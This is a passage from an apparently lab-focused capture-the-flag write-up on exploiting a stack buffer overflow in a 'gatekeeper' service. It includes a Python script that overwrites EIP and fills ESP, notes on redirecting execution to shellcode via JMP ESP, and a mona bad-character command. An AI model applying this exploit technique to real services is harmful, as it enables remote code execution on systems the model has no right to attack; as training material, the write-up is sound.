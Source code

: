 ```
The reason behind doing this step is to verify is there enough space for the shellcode immediately after EIP,  which is what will be executed by the system in order to gain remote access. 
Now lets update the script.

code=>

```
import socket

ip = "192.168.226.129"
port = 31337

offset = 146
overflow = "A" * offset
retn = "BBBB"
padding = ""
payload = "C" * 400

buffer = overflow + retn + padding + payload

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

Here we update offset value to what we find earlier then we add 4 B's in retn and 400 C's in payload.
Restart Immunity Debugger and re-attach gatekeeper and run the script again.
Now this time we can see EIP point to 42424242 which is 4 B's and all the 400 bytes of C's we send are successfully overwrite ESP register. This means an ESP JMP address can be used to redirect the execution to ESP, which will contain the malicious shellcode.

POC of script work=>

![ID-5](https://raw.githubusercontent.com/SUNNYSAINI01001/Gatekeeper/main/Screenshot/ID-5.png)

![EIP-BBBB-4](https://raw.githubusercontent.com/SUNNYSAINI01001/Gatekeeper/main/Screenshot/EIP-BBBB-4.png)

![python400](https://raw.githubusercontent.com/SUNNYSAINI01001/Gatekeeper/main/Screenshot/python400.png)

On above and below image show ESP contain 400 C's we find these address on immunity debugger stack as given below.

![addrs1-6](https://raw.githubusercontent.com/SUNNYSAINI01001/Gatekeeper/main/Screenshot/addrs1-6.png)

![addrs1-7](https://raw.githubusercontent.com/SUNNYSAINI01001/Gatekeeper/main/Screenshot/addrs1-7.png)

## Bad Chars

Lets create a byte array to test for bad characters.

command=>

```!mona bytearray -b "\x00"```

```